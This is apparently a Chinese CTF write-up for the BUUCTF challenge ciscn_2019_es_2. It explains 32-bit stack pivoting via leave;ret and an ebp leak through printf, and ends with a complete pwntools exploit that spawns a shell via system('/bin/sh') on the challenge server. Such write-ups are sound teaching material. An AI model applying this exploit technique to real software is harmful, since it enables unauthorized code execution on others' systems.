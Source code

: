 ### 32 位栈劫持 ROP

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67a87c72d0e0a243d4fd6634.png)

漏洞代码如下：

![](https://pic1.imgdb.cn/item/67a87c84d0e0a243d4fd6673.png)

缓冲区 s 能构成溢出，但是 ret 太小了构造不了完整的 ROP

![](https://pic1.imgdb.cn/item/67a87cbbd0e0a243d4fd6743.png)

当缓冲区溢出空间不足以布置完整的 ROP 链时，利用栈迁移扩展攻击空间

在 32 位中关键指令是 `leave; ret` 主要用于 **改变 ESP**，让程序跳转到新的栈地址

因为 `leave` 会 **将 `esp` 设为 `ebp`**，并且 `ebp` 由我们控制，所以可以实现 **栈迁移**

```
mov ebp, new_stack_address  ; 控制 ebp
leave                       ; esp = ebp, pop ebp
ret                         ; 弹出新的返回地址并跳转
```

在 nop 处下断点调试

![](https://pic1.imgdb.cn/item/67a8876ad0e0a243d4fd6ca7.png)

ebp 距离我们的输入差 0x38，ebp - 0x38 就拿到了我们参数 s 在栈上的位置

![](https://pic1.imgdb.cn/item/67a8d725d0e0a243d4fda2e4.png)

由于我们要用到 leave;ret 来劫持栈，所以先找一下 levae;ret 的位置

![](https://pic1.imgdb.cn/item/67a8ce28d0e0a243d4fda1d4.png)

![](https://pic1.imgdb.cn/item/67d8f66a88c538a9b5c01e19.png)

可以看到执行 leave 后，ebp 已经是我们修改的了

但是 esp 还不是，因为 pop ebp 和 esp 没有关系

但是如果这时候我再执行一次 leave，那么我们不是就可以 mov esp,ebp，把 ebp 的值赋值给 esp，那么我们就修改 esp 了

这也是为什么返回地址要改成 leave_ret 指令

![](https://pic1.imgdb.cn/item/67d8f6a588c538a9b5c01e1f.png)

![](https://pic1.imgdb.cn/item/67a8d4b1d0e0a243d4fda2ba.png)

可以看到，这时候 ret 指令还没执行，而且 esp 已经指向我们 system 的地址了

有些人注意到了，system 地址之前有四个 a，而且我们一开始想要让他修改成的地址就是 0xff83c1b0

为什么现在 esp 变成了0xff83c1b4，因为 leave 相当于 mov esp,ebp 和 pop ebp 两条指令

mov 执行完，esp 变成 0xff83c1b0，然后 pop 执行完，esp 变成 0xff83c1b4，ebp 变成了 0x61616161，也就是四个 a

![](https://pic1.imgdb.cn/item/67d8f6f088c538a9b5c01e27.png)

![](https://pic1.imgdb.cn/item/67a8d51bd0e0a243d4fda2bf.png)

`printf()` 函数在输出的时候遇到 `\0` 会停止

如果我们将参数 s 全部填满，这样就没法在末尾补上 `\0`，那样就会将 ebp 连带着输出

```python
payload= b'a' * 0x27 + b'b'

r.sendline(payload)
r.recvuntil('b')

ebp = u32(r.recv(4))
```

第一个 `'aaaa'` 随便输入，如果一开始将 `system` 函数写第一个

那么我们在用 `leave；ret` 劫持栈的时候要抬高 4 字节

接着跟上 `system` 函数的地址

后面是执行完 `system` 函数后的返回地址，这边也可以随便写

之后这个地址指向的是我们写在栈上的 `'/bin/sh'` 字符串

```python
payload = b'aaaa' + p32(sys) + p32(0) + p32(ebp - 0x28) + b"/bin/sh"
```

将 payload 补齐长度

```python
payload = payload.ljust(0x28,'\x00')
```

栈劫持，获取 shell

```python
payload += p32(ebp - 0x38) + p32(leave_ret)
```

```python
from pwn import *

p = remote('node5.buuoj.cn',28813)
elf = ELF('./ciscn_2019_es_2')
leave_ret = 0x08048562

p.recvline()

payload1 = b'a' * 0x25 + b'b'* 3

p.send(payload1)
p.recvuntil('abbb')

ebp = u32(p.recv(4))

payload2 = b'a' * 0x4 + p32(elf.plt['system']) + p32(0) + p32(ebp - 0x28) + b"/bin/sh"
payload2 = payload2.ljust(0x28, b'\x00')

# p32(ebp - 0x38)：覆盖栈上的 ebp，调整栈指针，使其指向 payload2 的起始位置
# p32(leave_ret)：执行 leave; ret，完成栈迁移，进入 ROP 执行
payload2 += p32(ebp - 0x38) + p32(leave_ret)

p.sendline(payload2)
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/67a8cda1d0e0a243d4fda1c2.png)